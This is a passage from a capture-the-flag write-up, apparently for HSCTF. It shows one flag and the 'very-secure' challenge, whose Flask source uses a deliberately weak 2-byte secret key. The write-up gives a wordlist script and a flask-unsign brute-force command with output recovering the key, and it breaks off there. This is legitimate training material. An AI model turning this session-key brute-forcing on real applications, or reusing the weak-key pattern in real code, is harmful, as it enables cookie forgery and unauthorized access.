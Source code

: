 Bypassed !!

`Flag : flag{easier_than_picture_lab_at_least}`

## Chall 4 - **very-secure**

link - [http://very-secure.hsctf.com/](http://very-secure.hsctf.com/)

**Description :** 

this website is obviously 100% secure

**Solution:**

They gave the source code for this challenge . 

```python
from flask import Flask, render_template, session
import os
app = Flask(__name__)
SECRET_KEY = os.urandom(2)
app.config['SECRET_KEY'] = SECRET_KEY
FLAG = open("flag.txt", "r").read()

@app.route('/')
def home():
    return render_template('index.html')

@app.route('/flag')
def get_flag():
    if "name" not in session:
        session['name'] = "user"
    is_admin = session['name'] == "admin"
    return render_template("flag.html", flag=FLAG, admin = is_admin)

if __name__ == '__main__':
    app.run()
```

on inspecting the [app.py](http://app.py) , we can see the SECRET_KEY is the random of length 2 bytes!!

So , we can able to bruteforce the SECRET_KEY easily!!

For that we have to generate the random bytes length of 300.

```python
f= open("bytes.txt",'a+')
for i in range(300):
	for j in range(300):
		f.write(f'{chr(i)}{chr(j)}\n')
```

Using flask-unsign we can able to bruteforce the secret_key

```python
flask-unsign --wordlist ~/Desktop/bytes.txt --unsign --cookie 'eyJuYW1lIjoidXNlciJ9.ZH7Xnw.QP8s7mNoNvwInGLDBN3fgw46Zuk' --no-literal-eval
[*] Session decodes to: {'name': 'user'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 34816 attempts
b'p6'
```
